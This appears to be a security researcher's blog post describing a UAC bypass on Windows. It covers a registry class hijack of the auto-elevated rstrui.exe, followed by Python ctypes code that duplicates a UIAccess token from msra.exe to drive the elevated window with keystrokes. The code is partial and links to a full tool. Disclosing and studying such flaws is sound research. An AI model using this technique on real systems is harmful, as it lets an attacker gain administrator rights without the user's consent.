 ```yaml
---
layout: post
title: RESEARCHING RSTRUI PROCESS
vimeoId: 344967402
---
```


Rstrui is a signed Microsoft executable, which handles the system restore features. This executable has "autoElevate" property set to true in the manifest which
means it will run with high integrity level. While playing around in [ProcessMonitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) from
Sysinternals, I found out that rstrui.exe accepts command line arguments, I focused on the "/RUNONCE" argument.

While monitoring the activity, I couldn't find any vulnerabilities at first. The UI starts up and fails, because I haven't configured the
system restore feature on the test machine. Pressed the left button "Run System Restore", see picture below. 

![_config.yml]({{ site.baseurl }}/images/rstrui_ui.JPG)

And checked back at ProcessMonitor, saw that it suffers from a class hijacking vulnerability, see picture below.

![_config.yml]({{ site.baseurl }}/images/rstrui_procmon.JPG)

If adding path to another executable in the {Default} value at "HKCU\Software\Classes\exefile\shell\runas\command\" we can trick rstrui to elevate another executable once
pressing "Run System Restore" button.

{% include vimeo.html id=page.vimeoId %}

One problem is that we cannot control this UI from a Medium IL process. In order to navigate the UI from a Medium IL process, we need to obtain a UIAccess token.

The first step is to either create or find a process with UIAccess flag, in this example we use "msra.exe" but could use "ctfmon.exe" which is running by default,
in that case we don't need to create a new process.
```python
shinfo = ShellExecInfo()
shinfo.cbSize = ctypes.sizeof(shinfo)
shinfo.fMask = 0x00000040
shinfo.lpFile = "msra.exe"
shinfo.nShow = 0
shinfo.lpParameters = None

with disable_fsr():
	if ctypes.windll.shell32.ShellExecuteExW(ctypes.byref(shinfo)):
		print "[+] Created host process PID: {pid} using ShellExecuteExW".format(pid=shinfo.hProcess)
	else:
		print "[-] Unable to create host process using ShellExecuteExW"
		return False
```

Open the token with TOKEN_DUPLICATE and TOKEN_QUERY access
```python
token = ctypes.c_void_p(ctypes.c_void_p(-1).value)
if ctypes.windll.ntdll.NtOpenProcessToken(shinfo.hProcess, (TOKEN_DUPLICATE | TOKEN_QUERY),
					ctypes.byref(token)) == ctypes.c_ulong(0xC0000001):
	print "[-] Unable to open process token using NtOpenProcessToken"
	return False
else:
	print "[+] Opened process token using NtOpenProcessToken: {token}".format(token=token)
```

Duplicate primary token with TOKEN_ALL_ACCESS access
```python
dtoken = ctypes.c_void_p(ctypes.c_void_p(-1).value)
if ctypes.windll.ntdll.NtDuplicateToken(token, TOKEN_ALL_ACCESS, None, False,
					TOKEN_TYPE.TokenPrimary, ctypes.byref(dtoken)) == ctypes.c_ulong(0xC0000001):
	print "[-] Unable to duplicate token using NtDuplicateToken"
	return False
else:
	print "[+] Duplicated token using NtDuplicateToken: {dtoken}".format(dtoken=dtoken)
```

Initialize Medium SID and lower the duplicated token from Medium+ to Medium integrity
```python
mlAuthority = SID_IDENTIFIER_AUTHORITY((0, 0, 0, 0, 0, 16))
pIntegritySid = ctypes.c_void_p()

if ctypes.windll.ntdll.RtlAllocateAndInitializeSid(ctypes.byref(mlAuthority), 1, IntegrityLevel.MEDIUM_RID,
					0, 0, 0, 0, 0, 0, 0, ctypes.byref(pIntegritySid)) == ctypes.c_ulong(0xC0000001):
	print "[-] Unable to Initialize Medium SID using RtlAllocateAndInitializeSid"
	return False
else:
	print "[+] Initialized Medium SID using RtlAllocateAndInitializeSid"

saa = SID_AND_ATTRIBUTES()
saa.Attributes = GroupAttributes.SE_GROUP_INTEGRITY
saa.Sid = pIntegritySid

tml = TOKEN_MANDATORY_LABEL()
tml.Label = saa

if ctypes.windll.ntdll.NtSetInformationToken(dtoken, TOKEN_INFORMATION_CLASS.TokenIntegrityLevel,
					ctypes.byref(tml), ctypes.sizeof(tml)) == ctypes.c_ulong(0xC0000001):													
	print "[-] Unable to lower duplicated token IL from Medium+ to Medium using NtSetInformationToken"
	return False
else:
	print "[+] Lowered duplicated token IL from Medium+ to Medium using NtSetInformationToken"
```

Using CreateProcessAsUserA we can create a new process using the duplicated token, which has the UIAccess flag.
This process can control a High IL process with SendKeys or keyboard events.
```python
lpStartupInfo = STARTUPINFO()
lpStartupInfo.cb = ctypes.sizeof(lpStartupInfo)
lpStartupInfo.dwFlags = 0x00000001
lpStartupInfo.wShowWindow = 5
lpProcessInformation = PROCESS_INFORMATION()
lpApplicationName = "notepad.exe" # Path to executable that controls High IL process

if not ctypes.windll.advapi32.CreateProcessAsUserA(dtoken, None, lpApplicationName, None, None, False,
						(0x04000000 | 0x00000010), None, None, ctypes.byref(lpStartupInfo), ctypes.byref(lpProcessInformation)):
	print "[-] Unable to create process using CreateProcessAsUserA"
	return False
else:
	print "[+] Created process PID: {pid} using CreateProcessAsUserA".format(pid=lpProcessInformation.dwProcessId)
```

Full code can be found here, with payload example to send keyboard events
* https://github.com/rootm0s/UIAP
